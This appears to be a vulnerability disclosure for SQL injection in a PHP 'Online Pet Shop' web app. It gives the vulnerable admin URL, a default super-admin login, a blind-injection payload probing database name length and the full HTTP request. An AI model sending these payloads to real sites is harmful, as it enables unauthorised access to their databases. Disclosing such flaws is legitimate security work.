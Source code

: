 # Online Pet Shop We App v1.0 by oretnom23 has SQL injection

BUG_Author: hegeoo

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /pet_shop/admin/?page=maintenance/manage_category&id=

Vulnerability location: /pet_shop/admin/?page=maintenance/manage_category&id=,id

dbname=pet_shop_db,length=11

[+] Payload: /pet_shop/admin/?page=maintenance/manage_category&id=4%27%20and%20length(database())%20=11--+ // Leak place ---> id

```sql
GET /pet_shop/admin/?page=maintenance/manage_category&id=4%27%20and%20length(database())%20=11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=k8u390ikl968phg971gmpmhtj5
Connection: close
```

length=11
![image](https://user-images.githubusercontent.com/54017627/185290414-d57ea467-72d5-48c5-ab4d-cd3b1de80865.png)


length=12
![image](https://user-images.githubusercontent.com/54017627/185290451-3c0dbaca-4038-4111-b1c6-d2961180c809.png)

